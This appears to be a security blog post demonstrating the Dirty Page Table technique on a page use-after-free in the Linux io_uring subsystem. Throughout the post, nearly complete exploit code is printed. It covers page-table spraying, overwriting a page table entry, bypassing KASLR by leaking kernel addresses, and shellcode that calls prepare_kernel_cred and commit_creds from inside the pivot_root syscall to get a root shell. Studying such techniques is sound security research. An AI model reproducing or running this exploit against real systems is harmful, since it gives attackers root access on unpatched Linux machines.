




Introduction
This post discusses a popular exploitation method in today’s cybersecurity community. Specifically, we’ll dive into the Dirty Page Table method by showcasing its use on a real-world page UAF (use-after-free) vulnerability in io_uring.
Although this article addresses the vulnerability itself, our focus is on the exploitation technique rather than the bug’s details. For an in-depth analysis of the vulnerability, you can read Oriol Castejón’s blog.
Vulnerability
In 2024, a Project Zero issue popped up, revealing a powerful new bug in the io_uring module. The issue mentioned a page UAF (use-after-free) primitive that gives attackers a chance to write data over previously freed pages. This primitive is considered substantially dangerous in terms of exploitability nowadays because it allows attackers to easily implement data-only attacking methods that manipulate physical memory.
To demonstrate the Dirty Page Table attacking method, this article uses the PoC that was provided by a Project Zero issue.
Exploitation
In typical object-based UAF exploits, it’s important to gain control of the memory slab that held the freed object in order to perform effective heap spraying. In our scenario, however, the vulnerability is page-based, meaning we control an entire page of memory. This broader control simplifies and enhances our ability to spray and manipulate memory.
When the kernel allocates page tables, it requests a free page from the buddy allocator. If we have control over a freed page in the buddy allocator, we can cause the kernel to reuse that page for its page table allocation. Once the kernel uses this controlled page as a page table, we can poison the Page Table Entries (PTEs).
The Dirty Page Table technique exploits a dangling page (freed but not yet reclaimed) to corrupt these PTEs. By modifying a PTE, we redirect a user-space virtual address to a chosen kernel-space physical address. This allows us to overwrite a targeted region of kernel memory (in this exploit, the memory backing the pivot_root() system call), enabling us to inject and execute shellcode.
The following code snippet prepares pages and sets up io_uring before triggering the bug.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
int main(void) {
int ret;
void *overlap_page = NULL, *pbuf_mapping = NULL;
void *page_spray[N_PAGESPRAY];
struct io_uring_buf_reg reg = {
.ring_entries = 1,
.bgid = 0,
.flags = IOU_PBUF_RING_MMAP
};
struct io_uring_buf_reg unreg;
struct io_uring_params params;
memset(&unreg, 0, sizeof(unreg));
memset(¶ms, 0, sizeof(params));
printf("[*] PID: %d\n", getpid());
fflush(stdout);
/* Bind process to current CPU core */
set_cpu_affinity();
printf("[*] Initializing io_uring...\n");
fflush(stdout);
int uring_fd = io_uring_setup(40, ¶ms);
if (uring_fd < 0) {
perror("io_uring_setup");
exit(EXIT_FAILURE);
}
/* Prepare pages (PTE not allocated at this moment) */
for (int i = 0; i < N_PAGESPRAY; i++) {
page_spray[i] = mmap((void *)(0x200000 + i * 0x10000UL),
0x8000, PROT_READ | PROT_WRITE,
MAP_ANONYMOUS | MAP_SHARED, -1, 0);
if (page_spray[i] == MAP_FAILED) {
perror("mmap failed");
exit(EXIT_FAILURE);
}
}
printf("[*] io_uring instance created (fd: %d).\n", uring_fd);
fflush(stdout);
/* Register a buffer ring with io_uring */
printf("[*] Registering buffer ring with io_uring...\n");
fflush(stdout);
ret = io_uring_register(uring_fd, IORING_REGISTER_PBUF_RING, ®, 1);
if (ret < 0) {
perror("io_uring_register (PBUF_RING) failed");
close(uring_fd);
exit(EXIT_FAILURE);
}
/* Map the buffer ring with mmap */
pbuf_mapping = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_PBUF_RING);
if (pbuf_mapping == MAP_FAILED) {
perror("mmap for buffer ring failed");
close(uring_fd);
exit(EXIT_FAILURE);
}
printf("[*] Buffer ring address: %p\n", pbuf_mapping);
fflush(stdout);
...
Then, the exploit triggers the vulnerability by unregistering the buffer ring, which frees the page and returns it to the buddy allocator.
1
2
3
4
5
6
7
8
9
printf("[*] Unregistering buffer ring...\n");
fflush(stdout);
ret = io_uring_register(uring_fd, IORING_UNREGISTER_PBUF_RING, &unreg, 1);
if (ret < 0) {
perror("io_uring_unregister (PBUF_RING) failed");
munmap(pbuf_mapping, 0x1000);
close(uring_fd);
exit(EXIT_FAILURE);
}
At that point, the exploit needs to write data to the previously allocated pages in order to spray page tables. Albeit it reserved the pages beforehand using mmap, the page tables are allocated when those pages are written to.
1
2
3
4
5
6
7
8
/* Spray page table entries (PTEs) by writing to mapped pages */
printf("[*] Spraying page tables...\n");
fflush(stdout);
for (int i = 0; i < N_PAGESPRAY; i++) {
for (int j = 0; j < 8; j++) {
*((char *)page_spray[i] + j * 0x1000) = 'a';
}
}
The following figure illustrates the memory layout after a successful heap spray.

When the exploit reads memory through a dangling pointer referencing the vulnerable page, it confirms that multiple distinct Page Table Entries (PTEs) have been created. It then selects the PTE located at the 8th index, corresponding to an offset of 0x38, to overwrite.
1
2
3
4
5
6
7
8
9
/* Inspect the PTEs in the mapped buffer */
uint64_t *page_table_entry = (uint64_t *)((char *)pbuf_mapping + 0x38);
for (size_t offset = 0; offset < 0x40; offset += sizeof(uint64_t)) {
uint64_t value = *((uint64_t *)((char *)pbuf_mapping + offset));
printf("[*] PTE (%p): 0x%llx\n",
(void *)((char *)pbuf_mapping + offset),
(value & ~0xfffULL) & ~(1ULL << 63));
fflush(stdout);
}
These PTEs refer to one of the pages sprayed earlier, with each PTE covering a 0x1000-sized memory region. By patching the entry at offset 0x38, the exploit gains control over the address range from pbuf_mapping + 0x7000 to pbuf_mapping + 0x8000.

By replacing the PTEs’ physical addresses with kernel physical addresses, the exploit effectively gains the ability to write to targeted kernel memory locations via userspace pages. However, most physical addresses are randomized when Kernel Address Space Layout Randomization (KASLR) is enabled; therefore, KASLR must first be bypassed.

At this stage, the exploit can’t directly overwrite a PTE with the address of a kernel function because it does not yet know the kernel’s physical base address. Instead, the exploit overwrites the PTE with a fixed physical value that will lead to a kernel pointer leak—thereby bypassing KASLR. For instance, the value 0x800000000009c067, which I found from this blog post created by @ptr-yudai.
While reading that blog post, I also discovered a useful tool worth mentioning: a customized version of GEF by @bata24, which allows traversing physical memory addresses directly in GDB.
1
2
3
4
5
/* Modify the PTE to leak the corresponding kernel physical address */
*page_table_entry = 0x800000000009c067;
printf("[*] Updated PTE value: 0x%lx\n", *page_table_entry);
printf("[*] Searching for overlapping page...\n");
fflush(stdout);
As a result of this PTE modification, one of the sprayed pages will now overlap with another page that contains a physical address we intend to leak. To find which page was affected, the exploit checks the bytes on each sprayed page (which were originally set to 'a'). If any page no longer contains the expected values, it means that the page’s mapping has changed. That page is identified as the overlapping page containing the leaked address.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
for (int i = 0; i < N_PAGESPRAY; i++) {
for (int j = 0; j < 8; j++) {
if (*((char *)page_spray[i] + j * 0x1000) != 'a') {
overlap_page = (char *)page_spray[i] + j * 0x1000;
printf("[*] Overlapping page found: %p\n", overlap_page);
fflush(stdout);
break;
}
}
}
if (overlap_page == NULL) {
fprintf(stderr, "[-] Overlapping page not found!\n");
exit(EXIT_FAILURE);
}
After identifying the overlapping page, the exploit proceeds to calculate the kernel’s physical base address by subtracting a predefined dummy offset, which may vary by kernel version. Once the base address is computed, it checks whether the result is greater than KERNEL_PHYSICAL_BASE_ADDR (typically 0x1000000) to determine whether KASLR is enabled on the target system. If the calculated physical address is less than 0x1000000, it indicates that KASLR is disabled and the kernel’s physical base address is statically set to 0x1000000.
1
2
3
4
5
6
7
8
/* Calculate kernel physical base. */
size_t kernel_phys_base = ((*(size_t *)overlap_page) & ~0xfffULL) - 0x2604000;
if (kernel_phys_base < KERNEL_PHYSICAL_BASE_ADDR) {
printf("[*] KASLR is not enabled on the target system!\n");
kernel_phys_base = KERNEL_PHYSICAL_BASE_ADDR;
}
printf("[*] Kernel physical base address: 0x%016lx\n", kernel_phys_base);
fflush(stdout);
The calculated physical base address corresponds to the _text symbol in the kernel. By adding an appropriate offset to this base address, the exploit can redirect the overlapping page to a desired kernel address.
The offsets of functions and structures remain consistent across both virtual and physical address spaces; hence, to determine these offsets, we can subtract the virtual or physical base address from the corresponding target virtual or physical address. The resulting offset is then added to the physical base address to compute the correct physical address. This calculated physical address is subsequently used to overwrite the PTE, allowing the userspace-controlled page to directly point to the targeted kernel memory region.
Additionally, a useful GDB command—monitor gva2gpa—can translate a given virtual address into its corresponding physical address, simplifying this address resolution process during debugging.

Next, to correctly patch the shellcode with valid kernel virtual addresses, the exploit must leak a kernel pointer and use it to calculate the correct kernel’s virtual base address. To achieve this, it overwrites the PTE of its overlapping page with the physical address of the init_task structure. This causes a kernel address (from the init_task structure) to be mapped into user-space, leaking a kernel virtual address. It then calculates the virtual base address of the kernel—typically corresponding to the _text symbol—by subtracting a predefined dummy offset from the leaked address.
There’s one important detail to be cautious about. On my system, with KASLR enabled, the physical address of the init_task_struct was around 0xb480c900. However, because only the lower 4 bytes of this address could be written into the PTE, the value actually set was 0x80000000b480c067. This maps to an address 0x900 bytes before the init_task_struct.
In my case, this misalignment was not an issue (since the leaked pointer was still valid). Nonetheless, if you want to eliminate the discrepancy, you can simply add 0x900 to your overlapped userspace page pointer to ensure proper alignment with the actual location of init_task_struct.
1
2
3
4
5
6
7
8
9
10
11
12
/* Patch the PTE to point to the initial task struct and leak its address to calculate the kernel's virtual base */
uint64_t phys_func = kernel_phys_base + INIT_TASK_STRUCT;
*page_table_entry = (phys_func & ~0xfffULL) | 0x8000000000000067ULL;
printf("[*] Updated PTE value: 0x%lx\n", *page_table_entry);
fflush(stdout);
flush_tlb_and_print(overlap_page, 0x1000);
printf("[*] Leaked kernel pointer from the kernel mapping of the initial task struct: 0x%016zx\n", *(size_t *)overlap_page);
fflush(stdout);
uint64_t kernel_virtual_addr_base = (*(size_t *)overlap_page) - 0x1a0c000;
printf("[*] Kernel virtual base address: 0x%lx\n", kernel_virtual_addr_base);
fflush(stdout);
There’s a particularly important detail in this part of the code: the flush_tlb_and_print() function, which the exploit uses to flush the TLB after overwriting the PTE.
In modern CPU architectures, the Translation Lookaside Buffer (TLB) is a cache that speeds up the translation of virtual addresses to physical addresses by storing recently used PTEs. Therefore, after modifying a PTE, the CPU may still reference the old, cached translation. To ensure the new PTE mapping takes effect, the TLB must be forcibly flushed. This is essential to access the memory region corresponding to the updated PTE.
In the exploit, this TLB flushing is performed using the mprotect() system call. First, the memory permissions for the corrupted page are changed to read-only. Meanwhile, the TLB was forced to flush its cached entry for that page. Then, the original permissions are restored to read-and-write, ensuring that the memory can be accessed as intended after the flush.
If you want to dive deeper into the TLB flushing, you may find this impressive paper particularly insightful.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
/* Flushes the TLB by temporarily changing memory permissions */
void flush_tlb_and_print(void *ptr, size_t count) {
uint64_t *addresses = (uint64_t *)ptr;
if (mprotect(addresses, count, PROT_READ) == -1) {
perror("mprotect (set PROT_READ)");
exit(EXIT_FAILURE);
}
/* Restore original permissions */
if (mprotect(addresses, count, PROT_READ | PROT_WRITE) == -1) {
perror("mprotect (restore PROT_READ | PROT_WRITE)");
exit(EXIT_FAILURE);
}
printf("[*] TLB flushed by changing memory permissions.\n");
fflush(stdout);
}
Since we have identified both the physical and virtual base addresses of the kernel and understand the structure of PTEs, we can now write the shellcode into the pivot_root() syscall using the following code.
Be sure to account for the offset issue mentioned earlier, as it is crucial when the exploit patches the PTE with the physical address of the pivot_root() syscall.
1
2
3
4
5
6
/* Patch the PTE to point to the kernel address of the pivot_root syscall */
phys_func = kernel_phys_base + PIVOT_ROOT_OFFSET;
*page_table_entry = (phys_func & ~0xfffULL) | 0x8000000000000067ULL;
flush_tlb_and_print(overlap_page, 0x1000);
printf("[*] Leaked kernel pointer from the kernel mapping of the pivot_root syscall: 0x%016zx\n", *(size_t *)overlap_page);
fflush(stdout);
Before writing our shellcode to the address space of the pivot_root() syscall, we first need to patch it with the correct kernel function addresses. To achieve this, we calculate the virtual addresses of init_task_struct, prepare_kernel_cred(), and commit_creds() by adding their known offsets to the leaked virtual base address of the kernel. If you need help finding the offset values of these elements, you can refer to this GitHub page.
Despite the fact that these are 64-bit addresses, the exploit only embeds the lower 4 bytes. This is because the shellcode is crafted without the 0xffffffff prefix, which represents the upper 32 bits of a full 64-bit address.
Besides, the exploit stores these values as uint32_t to simplify the patching process and avoid introducing null bytes, which could interfere with shellcode execution. Otherwise, including full 64-bit addresses directly might result in unexpected behavior or crashes.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
char shellcode[] =
"\x48\x31\xFF" /* xor rdi, rdi */
"\x48\xC7\xC7\x00\xB9\xA0\x82" /* mov rdi, 0xffffffff82a0b900 --> Placeholder for init_task_struct */
"\x48\xC7\xC1\xF0\x81\x0B\x81" /* mov rcx, 0xffffffff810b81f0 --> Placeholder for prepare_kernel_cred() */
"\xFF\xD1" /* call rcx */
"\x48\x89\xC7" /* mov rdi, rax */
"\x48\xC7\xC1\x60\x7F\x0B\x81" /* mov rcx, 0xffffffff810b7f60 --> Placeholder for commit_creds() */
"\xFF\xD1" /* call rcx */
"\xC3"; /* ret */
/* Calculate the proper addresses to be patched in */
uint32_t real_init_task = (uint32_t)(kernel_virtual_addr_base + INIT_TASK_STRUCT);
uint32_t real_prepare_kernel_cred = (uint32_t)(kernel_virtual_addr_base + PREPARE_KERNEL_CRED_OFFSET);
uint32_t real_commit_creds = (uint32_t)(kernel_virtual_addr_base + COMMIT_CREDS_OFFSET);
printf("[*] Patching shellcode...\n");
printf("[*] init_task_struct: 0x0xffffffff%08x\n", real_init_task);
printf("[*] prepare_kernel_cred: 0x0xffffffff%08x\n", real_prepare_kernel_cred);
printf("[*] commit_creds: 0x0xffffffff%08x\n", real_commit_creds);
fflush(stdout);
memcpy(&shellcode[6], &real_init_task, sizeof(real_init_task));
memcpy(&shellcode[13], &real_prepare_kernel_cred, sizeof(real_prepare_kernel_cred));
memcpy(&shellcode[25], &real_commit_creds, sizeof(real_commit_creds));
Finally, the exploit writes its shellcode to the address space of the pivot_root() syscall via the corrupted page. If the last 2 bytes of your pivot_root() syscall’s offset include a value like 0x2bf900, you’ll need to add the page offset (0x900 in this case) to your overlapped userspace page address before calling memcpy(). In my case, however, the offset of pivot_root is 0x2bf000, so no adjustment is necessary.
It then invokes the pivot_root() syscall, which results in the execution of the injected shellcode — ultimately yielding a root shell :)
1
2
3
4
5
6
7
8
9
10
/* Write the patched shellcode to the overlapping page */
printf("[*] Writing shellcode to overlapped page at %p...\n", overlap_page);
fflush(stdout);
memcpy(overlap_page, shellcode, sizeof(shellcode));
printf("[*] Shellcode written successfully.\n");
fflush(stdout);
/* Trigger shellcode execution by invoking pivot_root syscall */
pivot_root("/opt", "/opt/aa");
get_shell();
Conclusion
To sum up, I demonstrated the Dirty Page Table attack technique by exploiting a page-based use-after-free vulnerability discovered by Project Zero in the Linux kernel’s io_uring subsystem. If you’re interested in data-only attack strategies, you can check out my GitHub repository, which includes proof-of-concept exploits for this vulnerability using both the Dirty Cred and Dirty Page Table methods.